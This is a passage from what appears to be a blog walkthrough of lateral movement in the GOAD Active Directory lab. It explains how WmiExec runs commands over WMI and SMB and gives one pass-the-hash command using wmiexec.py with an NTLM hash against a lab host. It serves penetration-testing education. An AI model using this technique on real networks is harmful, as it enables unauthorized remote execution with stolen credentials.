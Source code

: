 ![lateral_custom_psexec_wireshark.png](/assets/blog/GOAD/lateral_custom_psexec_wireshark.png)

#### WmiExec

WmiExec (pseudo-shell):
 - Create new process throught wmi
 - Create file to get the command result, read the file with smb and delete it
 - Protocols : DCERPC + SMB

```bash
wmiexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_wmi_exec.png](/assets/blog/GOAD/lateral_wmi_exec.png)
